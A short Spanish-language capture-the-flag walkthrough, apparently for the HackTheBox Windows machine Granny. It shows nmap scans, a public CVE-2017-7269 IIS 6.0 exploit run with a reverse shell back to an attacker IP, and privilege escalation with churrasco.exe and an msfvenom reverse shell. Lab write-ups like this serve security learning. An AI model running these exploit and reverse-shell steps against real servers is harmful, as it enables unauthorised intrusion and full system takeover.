 ![cover]()

## Windows - Easy
IP = 10.10.10.15

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -oG allPorts 10.10.10.15
    
![Image text]( )

    nmap -sC -sV -p80 -oN targeted 10.10.10.15

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/targeted.jpg)

Detectamos un puerto IIS 6.0 habilitado 

Buscamos vulnerabilidades de IIS 6.0 y encontramos el CVE-2017-7269

Nos descargamos el exploit de:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Ejecutamos el exploit poniendo el puerto a la escucha.

    python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 4444

![]()   

Conseguimos acceso a la maquina, comprobamos el usuario con el que hemos accedido nt autority\network service
Esta cuenta tiene permisos de acceso a los recursos de red pero no podemos hacer nada con ella.

![]()

Buscamos informacion para la escalada de privilegios y encontramos el articulo
https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

ejecutamos 

    whoami /priv
    
Y comprovamos que el SeImpresontaPrivilege Enabled
Descargamos churrasco.exe y lo compartimos con impacket

![]()
Ejecutamos whoami con churrasco.exe y vemos que somos system

![]()

Creamos un reverse shell con msfvenom
![]()


lo copiamos en granny


ponemos en escucha el puerto de nuestro reverse shell y ejecutamos lo ejecutamos con churrasco


Conseguimos acceso con system


leemos la flag de user



### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![]()
